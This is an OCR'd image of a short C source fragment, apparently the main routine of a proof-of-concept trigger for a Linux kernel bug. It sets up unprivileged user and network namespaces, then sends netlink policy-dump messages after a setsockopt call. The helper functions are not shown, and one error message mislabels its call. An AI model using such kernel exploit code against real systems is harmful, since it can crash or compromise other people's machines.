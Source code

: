 }

void create_ns(void)
{
	if(unshare(CLONE_NEWUSER) != 0) {
		perror("unshare(CLONE_NEWUSER)");
		exit(1);
	}
	if(unshare(CLONE_NEWNET) != 0) {
		perror("unshared(CLONE_NEWUSER)");
		exit(2);
	}
}
int main(int argc,char **argv)
{
    struct msg_policy *p;
    create_ns();

    create_nl_socket();
    p = init_policy_dump(100);
    do_setsockopt();
    send_msg(fd,&p->msg);
    p = init_policy_dump(1000);
    send_msg(fd,&p->msg);
    return 0;
}
1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
20
21
22
23
24
25
26
27
28
29
30
31
32
33
34
35
36
37
38